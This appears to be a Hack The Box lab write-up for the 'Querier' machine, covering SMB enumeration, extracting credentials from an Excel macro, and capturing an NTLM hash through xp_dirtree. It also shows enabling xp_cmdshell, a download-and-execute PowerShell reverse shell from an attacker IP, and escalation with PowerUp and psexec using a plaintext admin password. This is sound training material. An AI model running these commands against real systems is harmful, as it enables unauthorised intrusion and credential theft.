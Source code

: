 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/querier-01.png)


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hosts-02.png)

With that out of the way, we can start enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/nmap-res-03.png)

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start by taking a look at the SMB though, maybe its misconfigured and we can access information we shouldn't. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shares-04.png)

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/smb-connect-05.png)

We can see the share hosts a single `.xlsm` file, this is a microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/empty-06.png)

If we open the file through a Windows machine and click on `File`:

![button-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/button-07.png)


We can see the following:

![luis-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/luis-08.png)

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/inspect-09.png)

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/olevba-10.png)


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/sql-login-11.png)

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/responder-12.png)

Lets crack it. 


First save it to a file:

![hash-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hash-13.png)


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/cracked-14.png)

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

`sp_configure 'show advanced options', '1'`
`RECONFIGURE`


Now we can enable command execution with:

`sp_configure 'xp_cmdshell', '1'`
`RECONFIGURE`

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shell-15.png)


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/admin-pass-16.png)

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17]()
